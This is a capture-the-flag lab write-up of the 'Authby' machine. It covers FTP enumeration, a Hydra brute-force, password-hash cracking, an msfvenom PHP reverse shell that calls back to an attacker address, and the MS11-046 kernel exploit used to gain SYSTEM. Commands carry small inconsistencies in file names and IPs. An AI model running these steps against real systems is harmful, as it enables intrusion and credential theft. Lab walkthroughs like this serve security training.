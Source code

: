 ```yaml
---
description: Privilege escalation using Kernel level exploit
---
```


# Authby

## Summary.

* Enumeration of the FTP server with Anonymous access enabled revealed potential usernames&#x20;
  * Bruteforcing gave away the credentials for the `admin` user.&#x20;
* Logging into FTP as `Admin` provided access to a `.htpasswd` file containing web server credentials.&#x20;
* With write access to FTP, a reverse shell was uploaded to gain an initial foothold on the machine.
* Finally, the [<mark style="color:red;">MS11-046</mark>](https://www.exploit-db.com/exploits/40564) vulnerability was leveraged to elevate access to the Administrator user.

## Let's unpack

### Enumeration

```bash
#nmap
sudo nmap -sC -sN -A -oN nmapFull -p- -A 192.168.161.46

>
 
PORT     STATE SERVICE            VERSION
21/tcp   open  ftp                zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Jun 29 19:09 log
| ----------   1 root     root         2275 Aug 08  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Mar 23 13:28 accounts
242/tcp  open  http               Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-title: 401 Authorization Required
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
3145/tcp open  zftp-admin         zFTPServer admin
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2024-06-29T12:17:15+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=LIVDA
| Not valid before: 2024-03-22T06:28:30
|_Not valid after:  2024-09-21T06:28:30
| rdp-ntlm-info: 
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
|   DNS_Domain_Name: LIVDA
|   DNS_Computer_Name: LIVDA
|   Product_Version: 6.0.6001
|_  System_Time: 2024-06-29T12:17:10+00:00

```

Enumerating FTP

```bash
# anonymous login to FTP 
total 4
dr-xr-xr-x   1 root     root          512 Mar 23 13:28 backup
----------   1 root     root          764 Mar 23 13:28 acc[Offsec].uac
----------   1 root     root         1030 Mar 23 13:28 acc[anonymous].uac
----------   1 root     root          926 Mar 23 13:28 acc[admin].uac

# potential usernames
> 
-admin
-offsec
-anonymous

# using Hydra to bruteforce the password
hydra -I -V -f -L usernames.txt -u -P /usr/share/seclists/Passwords/xato-net-10-million-passwords.txt 192.168.179.46 ftp

# Boom! got the password
[21][ftp] host: 192.168.161.46   login: admin   password: admin

# On logging into FTP using admin creds, we found interesting files
cat .htpasswd 
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0

# Eccrypting password using john
john --wordlist=/usr/share/wordlists/rockyou.txt hash
elite            (?)     

```

Discovered Credential

```bash
# FTP
admin:admin

# HTTP
offsec:elite
```



### Initial Foothold

#### Getting a shell on the server

* We have `admin` credentials for FTP that hold the file for the webserver.
* We know the credentials of the HTTP server.
* We can simply upload a web shell using an FTP server and open it on the http server

```bash
 # generated initial reverse shell payload using msfvenom
msfvenom -p php/reverse_php LHOST=192.168.45.152 LPORT=4444 -f raw > shell.php

# Uploading the shell via FTP
Put ex.php

# executing webshell 
curl -H 'Authorization: Basic b2Zmc2VjOmVsaXRl' 'http://192.168.223.46:242/shell.php'

# Caught the reverse shell
nc -nlvp 4444


```

### Privilege Escalation/Lateral Movement

Using `windows-exploit-suggestor` to find priv escalation vector

{% embed url="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" %}

Found a priv Escalation vector -> MS11-046

[https://www.exploit-db.com/exploits/40564](https://www.exploit-db.com/exploits/40564)

```bash
# Compiling and Executing the exploit
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32

# uploading the exploit using FTP
puts MS11-046.exe

# got NT AUTHORITY\SYSTEM privilege on exeuting the exploit

```
